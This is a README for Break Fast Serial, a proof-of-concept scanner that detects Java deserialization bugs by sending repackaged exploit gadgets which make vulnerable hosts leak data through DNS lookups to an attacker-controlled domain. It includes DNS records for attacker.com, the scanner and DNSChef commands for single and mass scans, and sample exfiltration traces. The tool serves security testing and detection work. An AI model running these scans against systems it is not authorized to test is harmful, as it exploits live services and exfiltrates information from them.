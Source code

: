 # Break Fast Serial

Proof of concept that demonstrate asynchronous scan of deserialization bugs. It repackage [well knonw exploits](https://github.com/breenmachine/JavaUnserializeExploits) with modified gadget to trigger DNS query.

Detailed explaination : http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/

## DNS Chef configuration

The DNS Chef instance is a requirement to see the results of the scan.

This is the typical DNS configuration expected on your domain registrar. It will signify to other DNS server that all subdomain of `attacker.com` must be resolve by the DNS server host at `10.11.12.13`
```
NS scanner.attacker.com dnschef.attacker.com
A dnschef.attacker.com 10.11.12.13
```

 - `10.11.12.13` : The public IP address that is 
 - `attacker.com` : A domain name you own

It is highly recommended to use this [modify version of DNS Chef](./dnschef) that decoded the metadata place.

## Single IP scan

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
python breakfast.py -t 192.168.40.1 -p 7001 -d scanner.attacker.com
```

## Mass Scan

Build a list of ip/hostname with open **HTTP** ports. Use 
```
$ cat list_servers.txt
192.168.40.10:80
192.168.40.24:8181
192.168.40.100:7001
192.168.40.100:8080
192.168.40.102:8080
192.168.40.102:8001
```

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
cat list_servers.txt | python breakfast.py -stdin -d scanner.attacker.com
```

## Expected response

If the vulnerability is confirmed, the expected trace from DNS Chef is as follow.

```
['843', 'jboss', '192.168.40.24', '8181']
[06:16:44] 69.165.172.165: cooking the response of type 'A' for 3834333a6a626f73733a3132372e302e302e313a38313831.scan.fsociety.com to 127.0.0.1
['914', 'jenkins-cli', '192.168.40.102', '8080']
[06:16:45] 173.194.103.14: cooking the response of type 'A' for 3931343a6a656e6b696e732d636c693a3132372e302e302e313a38303830.scanner.fsociety.com to 127.0.0.1
```